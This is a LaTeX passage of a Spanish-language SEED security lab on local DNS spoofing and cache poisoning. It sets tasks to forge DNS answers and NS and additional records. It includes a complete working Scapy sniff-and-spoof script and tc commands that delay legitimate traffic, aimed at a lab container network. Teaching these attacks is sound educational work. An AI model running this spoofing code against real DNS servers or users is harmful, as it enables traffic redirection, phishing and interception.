Cuando un usuario escribe el nombre de un sitio web (un hostname tal como {\tt
www.example.com}) en un navegador, la computadora del usuario enviará una consulta DNS hacia el servidor de DNS local para hacer la resolución de la dirección IP del hostname.
Los atacantes pueden sniffear el mensaje de la consulta DNS, y pueden crear una respuesta DNS falsificada y enviarla de retorno a la máquina del usuario. Si la respuesta falsificada llega antes que la original, esta será aceptada por la máquina del usuario.
Vea la Figura \ref{dns:fig:local_attack}). 

Por favor ecriba un programa para lanzar un ataque de este tipo. Se ofrece un código base más abajo. En la Sección \ref{sec:guideline} se muestra un ejemplo de como crear un paquete DNS que incluye varios tipos de registros. En el libro de SEED se ofrece una guía detallada.


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(...)           # Create an IP object
    udp = UDP(...)         # Create a UPD object
    Anssec = DNSRR(...)    # Create an aswer record
    dns = DNS(...)         # Create a DNS object
    spoofpkt = ip/udp/dns  # Assemble the spoofed DNS packet
    send(spoofpkt)

myFilter = "..."    # Set the filter
pkt=sniff(iface='(*@\textbf{br-43d947d991eb}@*)', filter=myFilter, prn=spoof_dns)
\end{lstlisting}

Cabe señalar que en el ejemplo anterior, el valor (remarcado) para el argumento \texttt{iface} debe de ser reemplazada con el valor actual del nombre de la interfaz para la red \texttt{10.9.0.0/24}.

Mientras el ataque este corriendo en la máquina de usuario, puede usar el comando \texttt{dig} en nombre del usuario que esta ejecutando el ataque.
Este comando hará que la máquina del usuario envie una consulta DNS hacia el servidor de DNS local, quien eventualmente enviará una consulta DNS hacia los nameserver autoritativos del dominio \texttt{example.com} (si la caché no contiene cacheada la respuesta).
Si su ataque es exitoso, debería de poder ver la información spoofeada en la respuesta. Compare los resultados obtenidos antes y después del ataque.
 
Antes de lanzar el ataque, asegúrese que la caché en el servidor de DNS local sea borrada. Si la caché tiene la respuesta, la respuesta proveniente del servidor de DNS local será más rápida que la spoofeada y su ataque no será exitoso.


\paragraph{Un problema potencial.} Al moomento de hacer este laboratorio se usaron contenedores, hemos observado una situación extraña que no ocurre siempre. El sniffeo y spoofeo dentro de los contenedores es muy lento y nuestro paquetes spoofeados llegan mucho más tarde que aquellos legítimos que provienen de Internet. En el pasado, cuando usamos Máquinas Virtuales para este laboratorio, no tuvimos este inconveniente. Hasta el momento no hemos podido encontrar la causa de este problema (si ud. tiene alguna idea, no dude en hacérnosla saber).

Si ud. se encuentra en esta situación extraña, existe una solución para la misma. Hemos enlentencido el tráfico saliente de manera intencional, por lo que las respuestas legítimas no llegarán tan rápido. Esto se puede hacer usando el comando \texttt{tc} para agregar algo de retraso en el tráfico saliente de red.
El router tiene dos interfaces \texttt{eth0} y \texttt{eth1}, asegúrese de estar usando la interfaz que está conectada a la red externa \texttt{10.8.0.0/24}.


\begin{lstlisting}
// Delay the network traffic by 100ms
# tc qdisc add dev (*@\textbf{eth0}@*) root netem delay 100ms

// Delete the tc entry
# tc qdisc del dev eth0 root netem

// Show all the tc entries 
# tc qdisc show dev eth0
\end{lstlisting}
 
Dado que todas las tareas de este laboratorio enfrenterán una situación similar, puede dejar guardada la entrada creada por el comando \texttt{tc}.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 2: El Ataque de DNS Cache Poisoning -- Spoofing de Respuestas}

El ataque anterior tiene como objetivo a la máquina del usuario. Para lograr un efecto de larga duración, cada vez que la máquina del usuario envía una consulta DNS para \url{www.example.com}, la máquina del atacante debe enviar una respuesta DNS falsificada.
Puede que esto no sea tan eficaz; hay una forma mucho más eficiente para realizar ataques que apunten al servidor DNS, en lugar de la máquina del usuario.

Cuando el servidor de DNS local recibe una consulta, primero mirá si la respuesta se encuentra en su caché; si la respuesta está en la caché, el servidor DNS responderá con la información de su caché.
Si la respuesta no está en la caché, el servidor DNS tratará de obtener la respuesta de otros servidores DNS. Cuando este obtiene la respuesta, este la guardará en su caché, por lo que la próxima vez no tendrá que preguntar en servidores DNS externos. Vea la Figura \ref{dns:fig:local_attack}. 

El servidor de DNS local guardará la respuesta spoofeada en su caché por un período limitado de tiempo. La próxima vez que la máquina del usuario quiera resolver el mismo hostname, este tendrá como respuesta la que se guardó en la caché.
De esta forma, los atacantes sólo necesitan spoofear una sola vez y el impacto de este proceso de spoofeado durará hasta que expire la caché en el servidor DNS.
Este ataque es llamado {\em DNS cache poisoning}.

Por favor modifique el programa usado en la tarea anterior para este ataque.
Antes de realizar el ataque, asegúrese que la caché del servidor DNS esté vacía.
Puede flushear la caché usando el siguiente comando:

\begin{lstlisting}
# rndc flush
\end{lstlisting}

Puede revisar la caché en el servidor de DNS local para ver si está "envenenada" o no. En los comandos que se muestran a continuación primero se hace un dump de esta caché hacia un archivo y luego se muestra el contenido de la caché que está almacenada en este archivo.

\begin{lstlisting}
# rndc dumpdb -cache
# cat /var/cache/bind/dump.db
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 3: Spoofeando los Registros NS}

En la tarea anterior, nuestro ataque de envenenamiento de caché de DNS solo afecta
un hostname es decir a \url{www.example.com}. Si los usuarios intentan obtener la dirección IP de otro hostname, como por ejemplo \url{mail.example.com}, será necesario lanzar el ataque nuevamente. Esto sería más eficiente si se lanzará un ataque que pueda afectar a todo el dominio \texttt{example.com} por completo.

La idea es usar la sección Authority en las respuestas DNS.
Básicamente, cuando spoofeamos una respuesta, además de falsificar la misma (en la sección Answer), agregamos la sección Authority.
Cuando esta entrada es cacheada por el servidor de DNS local, \url{ns.attacker32.com} será usado como el nameserver para consultas futuras que se hagan sobre cualquier hostname dentro del dominio \texttt{example.com}. Dado que \url{ns.attacker32.com} es controlada por los atacantes, puede proporcionar una respuesta falsa para cualquier consulta. La dirección IP de esta máquina es \texttt{10.9.0.153}.

\begin{lstlisting}
;; AUTHORITY SECTION:
example.com.            259200  IN      NS       ns.attacker32.com.
\end{lstlisting}
 
Por favor agregue el registro NS falsificado en su código de ataque y proceda a ejecutar el ataque. La sección \ref{sec:guideline} muestra un ejemplo de como incluír un registro NS en un paquete de respuesta DNS.
Para una cobertura más detallada sobre esto consulte el libro de SEED.
Antes de hacer el ataque, recuerde primero limpiar la caché en su servidor de DNS local.
Si su ataque es exitoso, cuando ejecute el comando \texttt{dig} en la máquina de usuario sobre cualquier hostname dentro del dominio \url{example.com}, verá la dirección IP falsificada provista por \texttt{ns.attacker32.com}. Por favor revise la caché en el servidor de DNS local y vea si el registro NS falsificado se encuentra en ella o no.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 4: Spoofeando los Registros NS para otro Dominio} 

En el ataque anterior, "envenenamos" con éxito la caché del servidor de DNS local, por lo que \texttt{ns.attacker32.com} se convierte en el servidor de nombres para el nombre de dominio \texttt{example.com}. Inspirados por este éxito, nos gustaría extender su impacto a otros dominios. A saber, en la respuesta falsificada que se desencadena por la consulta a \url{www.example.com}, nos gustaría agregar una entrada adicional en la sección Authority (ver más abajo), por lo que \url{ns.attacker32.com} también será usado como servidor de nombres para \texttt{google.com}.


\begin{lstlisting}
;; AUTHORITY SECTION:
example.com.            259200  IN      NS   ns.attacker32.com.
google.com.             259200  IN      NS   ns.attacker32.com.
\end{lstlisting}

Por favor modifique el código de ataque levemente y realize el ataque mencionado anteriormente, revise la caché DNS y vea que registro está cacheado.
Por favor describa y explique su observación. Debe de notar que la consulta que estamos atacando sigue siendo la consulta a \texttt{example.com} y no a \texttt{google.com}.  


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 5: Spoofeando Registros en la Sección Adicional}

Las respuestas DNS contienen una sección llamada la sección Additional, que es usada para proveer información adicional. En la práctica, se usa para para proveer la dirección IP de algunos hostnames, en especial aquellos que aparecen en la sección de Authority. El objetivo de esta tarea es falsificar algunas entradas en esta sección y ver si pueden ser cacheadas de forma exitosa por el servidor de DNS local. En particular, al responder la consulta para \texttt{www.example.com}, agregamos las siguientes entradas en la respuesta falsificada, además de las entradas en la sección Answer:

\begin{lstlisting}
;; AUTHORITY SECTION:
example.com.            259200  IN   NS   ns.attacker32.com.
example.com.            259200  IN   NS   ns.example.com.

;; ADDITIONAL SECTION:
ns.attacker32.com.      259200  IN   A    1.2.3.4   (*@\ding{192}@*)
ns.example.net.         259200  IN   A    5.6.7.8   (*@\ding{193}@*)
www.facebook.com.       259200  IN   A    3.4.5.6   (*@\ding{194}@*)
\end{lstlisting}

Las entradas en  \ding{192} y \ding{193} pertenecen a los hostnames de la sección Authority. La entrada en \ding{194} es irrelevante para cualquier entrada en la respuesta. pero proporciona una ayuda ``amable'' para usuarios, por lo que no necesitan buscar la dirección IP de Facebook. Utilice Scapy para falsificar dicha respuesta de DNS. Su trabajo es informar qué entradas se almacenarán en caché correctamente y qué entradas no lo harán; por favor explique el por qué.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Lo que sigue}

En el ataque de DNS cache poisoning que se hizo en este laboratorio, hemos asumido que el atacante y el servidor DNS se encuentran en la misma LAN, es decir, el atacante puede observar las consultas realizadas por el servidor DNS.
Cuando un atacante y un servidor DNS no se encuentra en la misma LAN, este tipo de ataque es más difícil de hacer. Si esta interesado en saber como hacerlo, puede consultar nuestro laboratorio ``Remote DNS Attack Lab o Ataque de DNS Remoto''.


% *******************************************
% SECTION
% ******************************************* 
\section{Guías}
\label{sec:guideline}

Dado que necesita usar Scapy para varias tareas del laboratorio. El siguiente código de ejemplo muestra como sniffear una consulta DNS y spoofear una respuesta DNS que contiene un registro A en la sección Answer, dos registros en la sección Authority y dos registros en la sección Additional. El código está incluído dentro del archivo \texttt{Labsetup.zip} (dentro de la carpeta \texttt{volumes}).


\begin{lstlisting}[caption={Sample code: \texttt{dns\_sniff\_spoof.py}}]
#!/usr/bin/env python3
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,  (*@\ding{81}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
f = 'udp and dst port 53'
pkt = sniff(iface='br-43d947d991eb', filter=f, prn=spoof_dns)       (*@\ding{73}@*)    
\end{lstlisting}
 
Asegurése de reemplazar el nombre de la interfaz en la Línea \ding{73} con la que corresponde en su sistema.
La Línea \ding{81} construye el payload DNS, incluyendo el encabezado DNS y sus datos. Cada campo del payload del DNS se explican a continuación:

 
\begin{itemize}[noitemsep]
\item \texttt{id}: Transaction ID; debe ser el mismo que se encuentra en la consulta.
\item \texttt{qd}: Query Domain; debe ser el mismo que se encuentra en la consulta.
\item \texttt{aa}: Authoritative answer (1 significa que la consulta contiene Authoritative answe).
\item \texttt{rd}: Recursion Desired (0 significa desactivar consultas recursivas).
\item \texttt{qr}: Query Response bit (1 significa Response).
\item \texttt{qdcount}: número de consultas por dominio.
\item \texttt{ancount}: número de registros en la sección Answer.
\item \texttt{nscount}: número de registros en la sección Authority. 
\item \texttt{arcount}: número de registros en la sección Additional. 
\item \texttt{an}: Sección Answer 
\item \texttt{ns}: Sección Authority
\item \texttt{ar}: Sección Additional
\end{itemize}
  



% *******************************************
% SECTION
% ******************************************* 
\section{Informe del Laboratorio}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% *******************************************
\section*{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana



\end{document}
